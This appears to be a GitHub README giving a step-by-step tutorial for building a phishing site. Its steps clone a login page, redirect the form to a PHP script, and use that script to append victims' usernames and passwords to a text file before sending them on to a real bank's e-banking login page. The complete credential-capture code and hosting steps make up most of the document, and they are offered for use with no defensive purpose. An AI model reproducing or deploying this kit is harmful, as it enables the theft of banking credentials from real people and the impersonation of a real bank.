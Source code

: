 # phishing


What phishing website does?

Phishing is get sensitive data like passwords, credit card details using fake websites and emails. This is the good example to social 
engineering because this fake website same as the original web site. So user easily caught this unauthorized websites. 



How to host the phishing page on our computer using XAMPP/WAMP ?

1) Open the website in the browser for which you want to create a phishing page. Right click and save as index.html.

![capture1](https://cloud.githubusercontent.com/assets/18233358/24329625/faa91b94-1229-11e7-8c3b-fd3ae79db078.PNG)

2) Then open that html in a note pad. Now search string "action" and change address to validate.php

                   <form action="validate.php" method="post">

3) Now open notepad, type following code in it and save it as validate.php. This is create for store credentials.

                    <?php
                    $username = $_POST["username"];
                    $password = $_POST["passwd"];
 
                    //Get credentials to .txt file
                    $myfile = fopen("credentials.txt", "a") or die("Unable to open file!");
                    $txt = "USERNAME = $username , PASSWORD = $password\n";
                    fwrite($myfile, "\n". $txt);
                    fclose($myfile);
 
                    //Redirect the browser to original login page
                    header("Location: https://www.ebank.peoplesbank.lk/eb/index.html");
 
                    exit();

                    ?>

4) Then create credentials.txt file to store these credentials.

5) Host that created files to XAMMP/WAMP.

![capture15](https://cloud.githubusercontent.com/assets/18233358/24329725/8ecfe7a6-122c-11e7-9c95-fa13dad02083.PNG)

6) Then run that phishing website on browser and enter credentials.

![capture14](https://cloud.githubusercontent.com/assets/18233358/24329565/f023d058-1227-11e7-9e8e-e1297b9771ea.PNG)

7) That credentials store credentials.txt file. You can view that file and get that credentials easily.

![capture17](https://cloud.githubusercontent.com/assets/18233358/24329768/b7b34f0e-122d-11e7-994d-19cb39c11ef5.PNG)












